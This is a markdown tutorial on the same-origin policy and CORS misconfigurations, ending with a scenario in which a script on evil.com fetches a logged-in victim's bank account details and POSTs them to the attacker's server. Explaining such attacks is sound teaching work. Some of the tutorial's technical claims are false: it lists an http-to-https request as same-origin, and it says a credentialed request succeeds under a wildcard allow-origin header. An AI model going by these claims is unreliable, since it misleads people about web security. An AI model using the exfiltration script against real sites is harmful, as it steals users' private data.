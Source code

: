 ## Preface
#### What is SOP ?
same origin policy is determined by browsers that disallows a web application reading data from another web application. The parameter of this functionality is that when a request is sent, the source need to have the same origin as destination. example :

* http://x.com --> https://x.com --------> DENY (different protocol)
* http://x.com --> https://x.com/login/ --------> OK 
* http://x.com --> https://x.com:8080 --------> DENY (different port)
##### What is origin ?
origin is defined by protocol, host name, and port of the URL.


## What is CORS ?
Cross-origin resource sharing is a mechanism that uses HTTP headers to define origins that the browser permit loading resources.
For example if `domain-a.com` wants to request `domain-b.com`, by default it's not gonna work, though by setting CORS rules we can let some specific domains to make requests.
To conclude these rules we can set HTTP header attributes, it can be for either letting basic requests or user credentials.


## CORS Vulnerabilities 

> In general if a vulnerable application uses ==cookies== to store authentication, and has an endpoint that returns sensitive information the following cases are vulnerable : 

* `access-control-allow-origin= *` : if it the value is `*` and the `access-control-allow-credentials=true`, you can run a script to request the vulnerable application from any origin and get credential data. To get the data of a user you must make him click on the link of your script which should be an available web page on the internet. to check if an application has this vulnerability, set `origin: [some origin]` and send the request, if it is reflected in the respond then it is vulnerable.

* `access-control-allow-origin= null` : To check if an application has this vulnerability you can place it in the header and set the value to null and if it is reflected in the respond it is vulnerable.  To pretend that your script's origin is null you can wrap the script in the `iframe` tag (a HTML tag).

* `access-control-allow-origin= [only the subdomains]`: Some applications only allow their own subdomain, to exploit this kind of vulnerability you can either find a vulnerability such as XSS in the subdomains of the vulnerable web application or you can put the permitted origin (in this context the url that contains other subdomains of the vulnerable app ) in your script (you can do it in `document.location`) and defraud the users to click on your script.

---

### CORS Exploitation Scenario


1. **Vulnerable API Configuration:**
   - The target website, `bank.com`, has an API endpoint at `api.bank.com` that allows authenticated users to access their account details.
   - The API is configured to allow CORS requests from any origin with the following header: 

```http
     Access-Control-Allow-Origin: *
```

2. **Victim's Browser:**
   - The victim is logged into `bank.com` and has an active session.

3. **Malicious Website:**
   - The attacker sets up a malicious website at `evil.com` with a script that makes a CORS request to the vulnerable API at `api.bank.com`.

4. **Attack Execution:**
   - The victim visits `evil.com`, which contains a hidden script that sends a request to `api.bank.com`.
   - Since the victim is already logged into `bank.com`, the browser automatically includes the session cookies in the request.

5. **CORS Request:**
   - The script on `evil.com` might look something like this:
     ```javascript
     fetch('https://api.bank.com/account/details', {
       method: 'GET',
       credentials: 'include' // Include cookies in the request
     })
     .then(response => response.json())
     .then(data => {
       // Send the data to the attacker's server
       fetch('https://evil.com/steal-data', {
         method: 'POST',
         body: JSON.stringify(data),
         headers: {
           'Content-Type': 'application/json'
         }
       });
     });
     ```

6. **Data Theft:**
   - The CORS request succeeds because the vulnerable API allows requests from any origin (`Access-Control-Allow-Origin: *`).
   - The API responds with the user's account details.
   - The malicious script sends these details to the attacker's server.

#### Key Points

1. **Vulnerable CORS Configuration:**
   - The API at `api.bank.com` has a weak CORS policy that allows any origin (`Access-Control-Allow-Origin: *`), making it susceptible to abuse.

2. **Exploiting Browser Behavior:**
   - The browser includes session cookies in the request to `api.bank.com` because the victim is logged in, and the `credentials: 'include'` option is used.

3. **Data Exfiltration:**
   - The attacker uses the data obtained from the API response and sends it to their own server for malicious use.
